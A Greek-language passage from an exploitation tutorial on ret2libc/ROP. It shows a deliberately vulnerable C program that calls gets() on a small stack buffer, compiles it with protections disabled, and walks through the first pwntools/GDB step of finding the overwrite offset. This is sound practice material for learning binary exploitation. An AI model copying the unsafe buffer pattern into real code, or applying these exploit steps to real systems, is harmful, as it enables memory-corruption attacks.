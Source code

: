 ## Άλλα tutorials και binaries για εξάσκηση

Αυτό το tutorial θα εκμεταλλευτεί τον κώδικα/binary που προτείνεται σε αυτό το tutorial: [https://tasteofsecurity.com/security/ret2libc-unknown-libc/](https://tasteofsecurity.com/security/ret2libc-unknown-libc/)\
Άλλα χρήσιμα tutorials: [https://made0x78.com/bseries-ret2libc/](https://made0x78.com/bseries-ret2libc/), [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)

## Κώδικας

Όνομα αρχείου: `vuln.c`
```c
#include <stdio.h>

int main() {
char buffer[32];
puts("Simple ROP.\n");
gets(buffer);

return 0;
}
```

```bash
gcc -o vuln vuln.c -fno-stack-protector -no-pie
```
## ROP - Leaking LIBC template

Θα χρησιμοποιήσω τον κώδικα που βρίσκεται εδώ για να δημιουργήσω την εκμετάλλευση.\
Κατεβάστε την εκμετάλλευση και τοποθετήστε την στον ίδιο φάκελο με το ευάλωτο δυαδικό αρχείο και δώστε τα απαραίτητα δεδομένα στο σενάριο:

{% content-ref url="rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-template.md)
{% endcontent-ref %}

## 1- Finding the offset

Το πρότυπο χρειάζεται μια μετατόπιση πριν συνεχίσει με την εκμετάλλευση. Αν παρέχεται οποιαδήποτε, θα εκτελέσει τον απαραίτητο κώδικα για να την βρει (κατά προεπιλογή `OFFSET = ""`):
```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
return
```
**Εκτελέστε** `python template.py` θα ανοίξει μια κονσόλα GDB με το πρόγραμμα να έχει καταρρεύσει. Μέσα σε αυτήν την **κονσόλα GDB** εκτελέστε `x/wx $rsp` για να αποκτήσετε τα **bytes** που θα αντικαθιστούσαν το RIP. Τέλος, αποκτήστε το **offset** χρησιμοποιώντας μια **κονσόλα python**:
```python
from pwn import *
cyclic_find(0x6161616b)
```